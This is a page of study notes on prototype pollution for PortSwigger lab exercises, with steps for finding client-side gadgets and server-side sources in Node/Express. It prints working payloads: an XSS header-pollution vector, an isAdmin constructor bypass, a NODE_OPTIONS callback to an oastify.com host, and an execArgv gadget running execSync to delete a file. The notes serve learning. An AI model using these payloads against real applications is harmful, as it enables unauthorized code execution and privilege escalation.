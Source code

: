 ```yaml
---
description: Prototype pollution notes for the first couple labs
---
```


# ⛽ Prototype Pollution

* [https://portswigger.net/burp/documentation/desktop/tools/dom-invader/prototype-pollution#scanning-for-prototype-pollution-gadgets](https://portswigger.net/burp/documentation/desktop/tools/dom-invader/prototype-pollution#scanning-for-prototype-pollution-gadgets) - DOM Invader
* Find source that allows adding properties to global prototype
  * `website.com/?__proto__[foo]=bar`
  * Check `Object.protoype.foo` in web console
    * Try with other techniques, formats, etc.
  * Can automated with DOM Invader
* Finding gadgets
  *   Manually

      1. Find properties used by the app or imported libraries in code
      2. Intercept Response, not request, with found JS
      3. Add debugger statement to start the script and forwards remaining HTTP
      4. Go to page loading the target script with Burp's Browser
      5. Enter the following in the web console to have log to console when accessed

      ```javascript
      Object.defineProperty(Object.prototype, 'YOUR-PROPERTY/GADGET', {
        get() {
            console.trace();
            return 'polluted';
        }
      })
      ```

      6. Press the continue button and check the console for stack trace
      7. Jump to the link in the stack trace that shows where the property is read
      8. Step through the execution phases to search for DOM Sink
  * Use DOM Invader
    * Note that scan for gadgets will pop up on the top and may require reloading the extension after inserting the matching canary in the input
  * Use Breakpoints in console debugger for troubleshooting broken exploits
* Header Pollution - `?__proto__[headers][x-username]=<img/src/onerror=alert(1)>`
* Check for JS files filtering for common injection strings

**Server Side**

* Detecting when not reflected
* Status code override
  1. Trigger error response and note status code
  2. Pollute prototype with your own status code that shouldn't normally happen
     * Not 500
  3. Trigger error response and check if status code overridden

```json
"__proto__": {
    "status":555
}
```

* JSON spaces
  * override json spaces option in Express framework then view a JSON response
  * Make sure to edit JSON in RAW when using Burp
  * version 4.17.4
* Charset override
  * Object properties visible in a response
  * Add arbitrary UTF-7 encoded string to reflected property
  * Send request
  * pollute protype with content-type property to specify UTF-7
  * Repeat first request and check if the role was decoded

```http
{
	"sessionId":"0123456789",
	"username":"wiener",
	"role":"+AGYAbwBv-"
}
```

```http
{
"sessionId":"0123456789",
"username":"wiener",
"role":"default",
"__proto__":{
	"content-type": "application/json; charset=utf-7"
}
}
```

```http
{
	"sessionId":"0123456789",
	"username":"wiener",
	"role":"foo"
}
```

* Scanning for server-side prototype pollution sources
  * Server-Side Prototype Pollution Scanner extension
  * Select list of items from HTTP History
  * right click and use extension
* Bypassing input filters for server-side proto pollution
  * Obfuscate prohibited keywords
  * Use constructor property instead of \_\_proto\_\_

```json
"constructor": {
    "prototype": {
        "isAdmin":true
	    }
	}
```

* Detecting Server-Side Prototype Pollution

```json
"__proto__": {
    "shell":"node",
    "NODE_OPTIONS":"--inspect=jbykzmsium655a5p72jx48q4xv3mrcf1.oastify.com\"\".oastify\"\".com"
}}
```

```json
"__proto__": {
    "shell":"node",
 "execArgv": [
    "--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"
	]
}
```
